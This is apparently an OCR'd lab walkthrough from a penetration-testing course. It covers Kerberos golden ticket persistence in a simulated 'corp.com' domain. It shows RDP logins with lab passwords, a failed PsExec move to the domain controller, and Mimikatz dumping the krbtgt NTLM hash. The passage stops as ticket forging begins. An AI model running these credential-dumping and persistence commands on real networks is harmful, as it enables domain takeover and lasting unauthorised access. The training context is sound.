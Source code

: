 # To test this persistence technique, we will first attempt to laterally move from the Windows 11 CLIENT74 workstation to the domain controller via PsExec as the jen user by spawning a traditional command shell with the cmd command.

xfreerdp /cert-ignore /u:jen /p:Nexus123! /d:corp.com /v:192.168.175.74

C:\Tools\SysinternalsSuite> PsExec64.exe \\DC1 cmd.exe
...
Couldn't access DC1:
Access is denied.
...

# At this stage of the engagement, the golden ticket will require us to have access to a Domain Admin's group account or to have compromised the domain controller itself to work as a persistence method. With this kind of access, we can extract the password hash of the krbtgt account with Mimikatz.

# To simulate this, we'll log in to the domain controller with remote desktop using the jeffadmin account. Then we will run Mimikatz from C:\Tools, and issue the lsadump::lsa command as displayed below:
xfreerdp /cert-ignore /u:jeffadmin /p:BrouhahaTungPerorateBroom2023! /d:corp.com /v:192.168.175.70

C:\Tools> .\mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::lsa /patch
...
Domain : CORP / S-1-5-21-1987370270-658905905-1781884369
RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 1693c6cefafffc7af11ef34d1c788f47
...

# Having obtained the NTLM hash of the krbtgt account, along with the domain SID, we can now forge and inject our golden ticket. Creating the golden ticket and injecting it into memory does not require any administrative privileges and can even be performed from a computer that is not joined to the domain. We'll take the hash and continue the procedure from a compromised workstation.

# Let's move back to CLIENT74 as the jen user. Before we generate the golden ticket let's launch mimikatz and delete any existing Kerberos tickets with kerberos::purge.
xfreerdp /cert-ignore /u:jen /p:Nexus123! /d:corp.com /v:192.168.175.74
